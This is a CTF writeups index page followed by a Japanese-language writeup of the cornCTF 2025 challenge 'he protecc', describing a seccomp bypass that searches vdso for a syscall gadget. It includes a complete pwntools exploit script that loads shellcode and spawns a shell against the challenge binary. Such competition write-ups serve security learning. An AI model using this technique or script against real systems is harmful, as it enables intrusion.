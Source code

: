 ```yaml
---
layout: page
title: CTF Writeups
nav_order: 3
description: "Collection of CTF competition writeups"
permalink: /writeups/
has_children: true
---
```


# CTF Writeups

This section contains writeups for various Capture The Flag (CTF) competitions I've participated in. These documents explain my approach, techniques used, and solutions for various security challenges.

## Available Writeups

- [SECCON 2022](/writeups/SECCON)
- [TSG LIVE 9 CTF](/writeups/TSG_LIVE_9)
- [ASIS CTF 2023](/writeups/ASIS_CTF_2023)
- [vsCTF 2023](/writeups/vsCTF2023)
- [DEFCON Quals 2024](/writeups/DEFCON-quals-2024)
- [SECCON 2024 Quals](/writeups/SECCON-quals-2024)
- [SECCON 2024 Final](/writeups/SECCON-final-2024)
- [AlpacaHack Round 10](/writeups/AlpacaHack-Round-10)
- [TsukuCTF 2025](/writeups/TsukuCTF2025)
- [IERAE CTF 2025](/writeups/IERAE_CTF_2025)

## Misc Writeups

### cornCTF 2025

#### he protecc

バイナリが渡される。
`READ | WRITE| EXEC` な領域が、固定アドレス`0x500000`に取られ、任意のコードを書き込み実行できる。

```plaintext
      0x400000           0x401000 r--p     1000      0 protected
      0x401000           0x4a2000 r-xp    a1000   1000 protected
      0x4a2000           0x4ca000 r--p    28000  a2000 protected
      0x4ca000           0x4cf000 r--p     5000  ca000 protected
      0x4cf000           0x4d1000 rw-p     2000  cf000 protected
      0x4d1000           0x4d7000 rw-p     6000      0 [anon_004d1]
      0x4d7000           0x4f9000 rw-p    22000      0 [heap]
      0x500000           0x501000 rwxp     1000      0 [anon_00500]
0x7ffff7ff7000     0x7ffff7ffb000 r--p     4000      0 [vvar]
0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000      0 [vvar_vclock]
0x7ffff7ffd000     0x7ffff7fff000 r-xp     2000      0 [vdso]
0x7ffffffdd000     0x7ffffffff000 rw-p    22000      0 [stack]
```

しかし、SECCOMPによってあらゆるシステムコールが禁止されている。

```plaintext
 0000: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0001: 0x01 0x00 0x00 0x003fffff  X = 4194303 # 0x3fffff
 0002: 0x2d 0x00 0x0a 0x00000000  if (A <= X) goto 0013
 0003: 0x01 0x00 0x00 0x004b7fff  X = 4947967 # 0x4b7fff
 0004: 0x2d 0x00 0x07 0x00000000  if (A <= X) goto 0012
 0005: 0x01 0x00 0x00 0x004fffff  X = 5242879 # 0x4fffff
 0006: 0x2d 0x00 0x06 0x00000000  if (A <= X) goto 0013
 0007: 0x01 0x00 0x00 0x00500fff  X = 5246975 # 0x500fff
 0008: 0x2d 0x00 0x03 0x00000000  if (A <= X) goto 0012
 0009: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0010: 0x01 0x00 0x00 0x00007fff  X = 32767   # 0x7fff
 0011: 0x2d 0x00 0x01 0x00000000  if (A <= X) goto 0013
 0012: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

システムコールが実行可能なのは`vdso`領域ぐらいだが、ここには

```
0x0000000000000fad: syscall; ret;
```

こんなガジェットがある。また、`vdso`のベースアドレスは`_dl_sysinfo_dso`からリークできる。

ただ、`vdso`はカーネルによって異なるので、シェルコード内で該当の命令を探し、それをガジェットとして使う。

```bash
$ asm -c amd64 'syscall; ret'
0f05c3
```

あとはいい感じに飛べば良い。

<details>
<summary>
exploit.py
</summary>
from typing import List, Any, Dict
import time
from pwn import context, gdb, ELF, shellcraft, tube, pack, unpack, log, process, p64, p32, SigreturnFrame, ROP, asm, disasm, remote
from libpwncof import PayloadBuffer, LabelRef, create_ucontext

context.terminal = ["tmux", "splitw", "-h"]
context.log_level = "debug"
# context.log_level = "info"

path = "./protected"
elf = ELF(path)
context.binary = elf

# io: tube = gdb.debug(path)
# io: tube = remote('he-protecc.challs.cornc.tf', 1337, ssl=True)
io: tube = process(path)
# io: tube = remote("127.0.0.1", 10000)

# -1f05c3: syscall; ret

code = f"""
    mov r15, [{elf.symbols['_dl_sysinfo_dso']}]

check:
    cmp byte ptr [r15 + 0], 0x0f
    jne fail
    cmp byte ptr [r15 + 1], 0x05
    jne fail
    cmp byte ptr [r15 + 2], 0xc3
    jne fail

    jmp found

fail:
    inc r15
    jmp check

found:
    mov rdi, 0x501000
    mov rsi, 0x1000
    mov rdx, 0x7
    mov r10, 0x22
    mov r8, 0xffffffff
    mov r9, 0
    mov rax, 9
    call r15

    mov rdi, 0
    mov rsi, 0x501000
    mov rdx, 0x1000
    mov rax, 0
    call r15

    mov r15, 0x501000
    jmp r15
"""

a = asm(code)

io.recvuntil("How")
io.sendline(str(len(a)).encode())

io.send(a)

time.sleep(1)
code2 = shellcraft.sh()
a = asm(code2)

io.send(a)
time.sleep(1)

io.interactive()
</details>
